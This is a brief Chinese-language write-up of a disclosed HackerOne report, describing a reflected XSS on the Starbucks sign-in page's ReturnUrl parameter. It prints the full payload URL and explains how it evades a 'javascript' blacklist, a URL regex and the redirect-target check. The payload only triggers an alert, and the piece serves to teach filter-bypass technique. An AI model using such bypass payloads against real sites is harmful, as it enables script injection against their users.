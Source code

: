 # 漏洞散记
## 漏掉的奖金
> 我曾在这个点发现过星巴克的任意重定向漏洞，但是也想过进行`xss`弹窗却失败了，这次看到别人的`payload`非常的有意思，因此记录一下。

> 漏洞价值:375$

> 源漏洞:[#438240](https://hackerone.com/reports/438240)


# 挖洞过程

漏洞的挖掘并不是非常的费神，就是非常简单的一个`反射型xss`，但是呢作者提出了一个非常有意思的`payload`
```
https://www.starbucks.com/account/signin?ReturnUrl=%19Jav%09asc%09ript%3ahttps%20%3a%2f%2fwww%2estarbucks%2ecom%2f%250Aalert%2528document.domain%2529
```
其中有针对`javascript`这种黑名单的绕过，也有针对`https://`这种正则的绕过，同样的添加了域名满足了跳转的目标检测，认为是一个合法的跳转目标，然后通过`%0A`的方式继续绕过，导致`alert`逃逸出来，非常的有趣。

# 结语

思路非常的随和，基本属于是服务端防御了什么，就选择性地绕过什么，有意思。
